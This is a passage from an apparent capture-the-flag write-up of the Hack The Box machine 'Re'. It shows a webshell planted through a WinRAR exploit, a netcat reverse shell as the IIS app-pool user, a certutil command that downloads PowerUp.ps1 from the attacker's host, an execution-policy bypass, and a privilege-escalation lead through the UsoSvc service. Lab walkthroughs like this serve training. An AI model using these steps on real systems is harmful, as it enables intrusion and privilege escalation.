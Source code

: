 I can place a webshell in the directory using the same Winrar exploit:

![](/assets/images/htb-writeup-re/aspx1.png)

And now I have RCE as `iis apppool\re`

![](/assets/images/htb-writeup-re/aspx2.png)

I'll pop another shell with netcat:

```
# nc -lvnp 5555
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::5555
Ncat: Listening on 0.0.0.0:5555
Ncat: Connection from 10.10.10.144.
Ncat: Connection from 10.10.10.144:60328.
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
iis apppool\re

c:\windows\system32\inetsrv>
```

Then use PowerUp from Powersploit to look for privesc vectors:

```
c:\ProgramData>certutil -urlcache -f http://10.10.16.9/PowerUp.ps1 powerup.ps1
****  Online  ****
CertUtil: -URLCache command completed successfully.

c:\ProgramData>powershell -ep bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\ProgramData> import-module .\powerup.ps1
PS C:\ProgramData> invoke-allchecks

[...]

ServiceName   : UsoSvc
Path          : C:\Windows\system32\svchost.exe -k netsvcs -p
StartName     : LocalSystem
AbuseFunction : Invoke-ServiceAbuse -Name 'UsoSvc'
```